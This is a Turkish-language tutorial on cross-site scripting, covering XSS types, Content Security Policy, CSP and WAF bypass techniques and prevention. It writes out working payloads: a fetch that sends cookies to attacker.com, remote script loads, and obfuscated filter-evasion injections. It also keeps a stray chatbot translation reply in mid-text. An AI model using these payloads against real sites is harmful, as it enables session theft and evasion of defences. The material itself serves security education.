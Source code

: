 # XSS (Cross-Site Scripting)
XSS açıkları, saldırganın kurban kullanıcı gibi davranmasına, kullanıcının yapabileceği tüm işlemleri gerçekleştirmesine ve kullanıcıya ait verilere erişmesine olanak tanır. Eğer kurban kullanıcı uygulama içinde ayrıcalıklı yetkilere sahipse, saldırgan uygulamanın tüm işlevselliği ve verileri üzerinde tam kontrol sağlayabilir.

XSS, güvenlik açığı bulunan bir web uygulamasının kullanıcıya kötü amaçlı JavaScript kodu döndürmesi ile ortaya çıkar. Bu kod kurbanın tarayıcısında çalıştığında, saldırgan kurbanın uygulama ile olan etkileşimini tamamen ele geçirebilir.

## XSS Türleri
Üç ana XSS türü vardır:

* Reflected XSS – Kötü amaçlı script, mevcut HTTP isteğinden gelir.
* Stored XSS – Kötü amaçlı script, veritabanı gibi kalıcı bir depodan gelir.
* DOM-based XSS – Açık, sunucu tarafında değil istemci tarafındaki JavaScript kodunda bulunur.
* Blind XSS – Kötü amaçlı script, doğrudan kullanıcıya görünmeden genellikle yönetici panelleri, log dosyaları veya arka uç sistemlerinde tetiklenir ve saldırgan, payload’un çalıştığını bir call-back mekanizmasıyla gözlemler.

## Reflected XSS
Reflected XSS, kullanıcının girdiği verinin sunucuya ulaştıktan sonra herhangi bir filtreleme veya sanitizasyon yapılmadan HTTP yanıtına dahil edilmesiyle oluşur.

Bu açık Non-Persistent olarak sınıflandırılır; sayfa kapatıldığında veya yenilendiğinde saldırı etkisiz hale gelir.

Örnek:
```html
https://insecure-website.com/status?message=All+is+well
<p>Status: All is well.</p>
```

Saldırgan URL’yi şu şekilde değiştirebilir:
```html
https://insecure-website.com/status?message=<script>alert('XSS')</script>
```

Kurban bu bağlantıya tıkladığında, script tarayıcıda kurbanın oturumu bağlamında çalışır.

## Stored XSS
Stored XSS (Persistent XSS), saldırganın enjekte ettiği kodun kalıcı olarak depolanması ve her görüntülendiğinde çalışması durumunda oluşur. Bu veri, veritabanına, loglara veya başka kalıcı depolama alanlarına kaydedilebilir.

Stored XSS en tehlikeli XSS türüdür; çünkü sayfayı ziyaret eden her kullanıcı saldırıdan etkilenir. Ayrıca genellikle manuel müdahale olmadan temizlenemez.

Örnek:
```html
<p>Hello, this is my message!</p>
```

Saldırgan şu şekilde veri gönderebilir:
```html
<p><script>alert('XSS')</script></p>
```

Bu içerik veritabanına kaydedilir ve her görüntülendiğinde çalışır.

## Blind XSS 
Blind XSS, saldırganın payload’unun doğrudan kullanıcıya görünmeden, genellikle yönetici panelleri veya log sistemleri gibi arka planda çalışan alanlarda tetiklenmesiyle ortaya çıkar. Payload çalıştığında saldırgan, bir call-back mekanizmasıyla (ör. Burp Collaborator) tetiklemeyi gözlemler. Blind XSS için tipik bir payload, tetiklendiğinde saldırganın kontrolündeki bir sunucuya HTTP isteği gönderen basit bir JavaScript olabilir.
Örnek:

```html
<script src="https://attacker.com/collect.js"></script>
```

veya doğrudan bir fetch ile:

```html
<script>
fetch('https://attacker.com/log?cookie=' + document.cookie);
</script>
```

Bu payload, kullanıcıya görünmeden arka planda çalışır ve saldırganın sunucusuna veri gönderir.

## DOM-based XSS
DOM-based XSS, tamamen istemci tarafında (client-side) çalışan JavaScript kodunun kullanıcı girdisini filtrelemeden DOM’a yazması ile ortaya çıkar. Bu tür XSS, sunucuya gönderilen veri üzerinden değil, tarayıcıdaki Document Object Model (DOM) manipülasyonu ile tetiklenir.

Örnek:
```js
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

Eğer saldırgan `search` alanının değerini kontrol edebiliyorsa şu payload çalışabilir:

```html
<img src=1 onerror="alert('XSS')">
```

### Source & Sink
DOM-based XSS’i anlamak için Source ve Sink kavramlarını bilmek önemlidir:

* Source: Kullanıcı girdisini alan JavaScript nesnesi (örn. URL parametresi, form input’u).
* Sink: Kullanıcı girdisini DOM’a yazan fonksiyon. Eğer filtrasyon yapılmazsa XSS oluşur.

Sık kullanılan Sink fonksiyonları:
```javascript
document.write()
element.innerHTML
element.outerHTML
```

jQuery’de sık kullanılan Sink fonksiyonları:
```javascript
add()
after()
append()
```

Bu fonksiyonlar girdiyi doğrudan DOM’a yazarsa ve giriş doğrulaması yapılmazsa sayfa XSS’e açıktır.

## Content Security Policy
Content Security Policy (CSP), Cross-Site Scripting (XSS), clickjacking gibi belirli istemci tarafı saldırılarını tespit etmek ve sınırlandırmak için ek bir korumadır. Sunucu seviyesinde yapılandırılır. Yöneticiler, bir sayfa yüklendiğinde tarayıcıların uyması gereken kuralları tanımlar. Örneğin, hangi kaynaklardan script, resim veya diğer kaynakların yüklenebileceğini belirleyebilirler.

CSP iki şekilde tanımlanabilir:
- Sunucu yanıtına Content-Security-Policy HTTP header’ı ekleyerek.
- HTML sayfalarında <meta> etiketi kullanarak.

### Content Security Policy’nin Ana Direktifleri
Bir CSP, directive adı verilen kurallardan oluşur. Her direktif, belirli kaynakların yüklenmesi ve çalıştırılması için kısıtlamalar tanımlar.

#### Directive türleri:
- Fetch directives → Tarayıcıya verilerin nasıl yükleneceğini söyler.
- Diğer direktifler → Tarama, belge ve raporlama gibi ek güvenlik kontrolleri içerir.

#### Fetch directives
- default-src → Başka bir direktif tanımlanmazsa varsayılan kaynak.
- script-src → JavaScript ve WebAssembly için geçerli kaynaklar.
- script-src-elem → <script> tag’leri için geçerli kaynaklar (yoksa script-src kullanılır).
- frame-src → <frame> ve <iframe> için geçerli kaynaklar.
- img-src → Görseller için geçerli kaynaklar.
- style-src → CSS dosyaları için geçerli kaynaklar.
- font-src → Fontlar için geçerli kaynaklar.

#### Diğer önemli direktifler
- sandbox → İçeriği izole eden sandbox modunu aktif eder (<iframe> gibi).
- require-trusted-types-for → DOM tabanlı XSS saldırılarını sınırlamak için “trusted types” kullanımını zorunlu kılar.
- trusted-types → Sadece izin verilen “Trusted Types” tanımlarını çalıştırır.
- upgrade-insecure-requests → HTTP isteklerini otomatik olarak HTTPS’e çevirir.
- frame-ancestors → <frame>, <iframe>, <object>, <embed> ve <applet> için izin verilen kaynakları sınırlar.
- form-action → Formların gönderilebileceği URL’leri sınırlar.
- base-uri → <base> etiketi için geçerli kaynakları sınırlar.

#### Fetch Directives için Olası Değerler
- 'none' → Kaynağı tamamen engeller.
- 'self' → Yalnızca aynı origin’den yükleme yapılmasına izin verir.
- [host-source] → Özel bir domain veya IP tanımlar.
- [scheme-source] → Belirli bir protokole izin verir (https:, data:, ws:, vb.).
- → Herhangi bir alt domain, host veya port’a izin verir.
- 'nonce-[değer]' → Sunucu tarafından her yanıt için üretilen rastgele bir nonce değeri.
- 'unsafe-eval' → eval() gibi metin tabanlı JavaScript çalıştırılmasına izin verir.
- 'unsafe-inline' → Inline script, event attribute (onclick) ve javascript: URL’lerine izin verir.
- Yanlış yapılandırılmış değerler, özellikle XSS saldırılarına kapı açabilir.

### Content Security Policy Örneği
Sunucu, tarayıcıya CSP’yi HTTP yanıtında iletebilir:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://*.example.com; object-src 'none'; img-src 'self' data: *.vaadata.com;
```

Bu konfigürasyon:
- default-src 'self' → Tanımsız tüm kaynak türleri sadece aynı origin’den yüklenir.
- script-src 'self' https://*.example.com → Sadece example.com alt domainlerinden script yüklenir.
- object-src 'none' → <object> ve <embed> tamamen yasak.
- img-src 'self' data: .example.com → Görseller sadece self, data: şeması ve example.com alt domainlerinden yüklenebilir.

### CSP Bypass Teknikleri
#### unsafe-inline kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';
```

Bu durumda inline script’ler çalışabilir:
```js
<script>alert(1);</script>
```

#### unsafe-eval kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:;
```

eval() veya Function() çağrıları yapılabilir. Ayrıca data: şemasıyla Base64 kodlu script çalıştırılabilir:
```js
<script src="data:;base64,YWxlcnQoMSk="></script>
```

#### script-src'de wildcard (*) kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *;
```

Saldırgan kendi sunucusundan script yükleyebilir:
```js
<script src="https://evil.vaadata.at"></script>
```

### object-src ve default-src eksikliği
```http
Content-Security-Policy: script-src 'self'; img-src 'self';
```

```<object>``` etiketi ile Base64 kodlu zararlı script yüklenebilir:
```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

#### JSONP endpoint istismarı
```http
Content-Security-Policy: default-src 'none'; script-src https://hello.vaadata.com/test.js https://accounts.google.com/o/oauth2/revoke;
```

İzin verilen domainlerde JSONP endpoint varsa callback parametresi ile XSS yapılabilir:
```url
https://accounts.google.com/o/oauth2/revoke?callback=alert(1)
```
## WAF Bypass
Tabii, verdiğin içeriği teknik terimlerini koruyarak Türkçeye çevirebilirim:

---

## WAF Bypass Teknikleri

### String Kodlama (String Encoding)

#### Base64 Kodlama:
```javascript
btoa("alert(1)");  // Base64'e kodlar
atob("YWxlcnQoMSk=");  // Base64'ten tekrar "alert(1)" olarak çözer
```

#### Octal ve Heksadesimal Kodlama:
```javascript
\\141\\154\\145\\162\\164(1);  // "alert(1)" için sekizlik
\\x61\\x6c\\x65\\x72\\x74(1);  // "alert(1)" için hex
```

#### Unicode Escaping:
```javascript
al\\u0065rt(1);  // Unicode kullanarak "alert(1)"
```

#### Decimal Kodlama:
```javascript
String.fromCharCode(97, 108, 101, 114, 116)(1);  // "alert(1)" çıktısı
```

#### String Birleştirme:
```javascript
var a = "al";
var b = "ert(1)";
a.concat(b);  // "alert(1)" çıktısı
```

### Parantez Engellerini Bypass Etme
Bazı WAF’ler parantez veya alert() gibi belirli fonksiyonları engeller. Alternatifler:

#### Backtick Kullanımı:
```javascript
alert`1`;  // Parantez kullanmadan alert
```

#### Event Handler Kullanımı:
```html
<img src="nonexistent.jpg" onerror="alert(1); throw 'Error';">
```

#### Throw Syntax Kullanımı:
```javascript
throw onerror=alert, "aaaa", "bbbb";
```

### Fonksiyon Kara Listeleri ve Alternatifler
Eval() engellenmişse, aynı etkiyi sağlayacak alternatifler kullanılabilir:

```javascript
// Engellenmiş: eval("alert(1)");
// Alternatifler:
setTimeout("\\x61\\u{65}\\162t(2)");
setInterval("\\x61\\u{65}\\162t(2)");
Function("alert(2)")``;
Function("alert(2)")();
(Function("alert(2)"))();
Function("alert(1)")();  // eval kullanmadan
```

#### Unicode ile Fonksiyon Çağrısı:
```javascript
\\x61\\u{65}\\162t(2);  // alert(2) ile aynı
```

### Dot Notation ve window Engellerini Bypass Etme
Dot notation (ör. `document.cookie`) engellenmişse köşeli parantez kullan:

```javascript
document["cookie"];  // document.cookie yerine
```

Window kullanımını engelleyen WAF’ler için alternatifler:
```javascript
top;    // window.alert yerine
self;   // self veya top kullan
frames; // frames veya parent
parent;
this;
```

#### Array Kullanımı:
```javascript
[20].find(alert);   
[document.cookie].find(prompt);
```

#### Gelişmiş Array Metodları:
```javascript
[document.cookie].forEach(prompt);  
[document.cookie].filter(alert);    
[document.cookie].map(alert);
```

#### Global Object Bypass:
```javascript
globalThis;  
globalThis ;
```

### Tag Kapatma
HTML’de çalıştırılamayan tag’leri kapatıp payload ekleme:

```html
<style>/* CSS, script çalışmaz */</style><script>alert(1)</script>
<title>Page Title</title><script>alert(1)</script>
<noembed>Fallback content</noembed><script>alert(1)</script>
<template>This is template content</template><script>alert(1)</script>
<noscript>Content when JS disabled</noscript><script>alert(1)</script>
<textarea>User entered text</textarea><script>alert(1)</script>
<!-- HTML Comment --> <script>alert(1)</script>
```

### iframe ile Payload

```html
<iframe src="data:text/html, <svg onload=alert(2)>">
<iframe src="data:text/html;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+"></iframe> <!-- alert(2) -->
```

## XSS Saldırılarını Önlemek
CSP, XSS gibi zafiyetlerin kötüye kullanılmasını sınırlayan veya önleyen ek bir koruma katmanı sağlar. Bu saldırılara karşı ilk savunma hattı hâlâ input validation ve output encoding yöntemleridir. Genel olarak, CSP aşağıdaki noktalar dikkate alınmalıdır:

* Restriktif bir default-src direktifi tanımlayın.
* Sıkı bir object-src direktifi uygulayın (ideal olarak none).
* unsafe-eval ve unsafe-inline değerlerinden kaçının. Genel kural olarak, ‘unsafe’ içeren direktifleri yasaklayın; yalnızca etkilerini tam olarak anladığınızda izin verin.
* Harici sunuculardan script yüklemeye izin vermeyin.
* Wildcard (*) kullanımını en aza indirin.
* Güvenliği güçlendirmek için nonce kullanın.
* CSP’nizin sağlamlığını özel araçlar kullanarak test edin
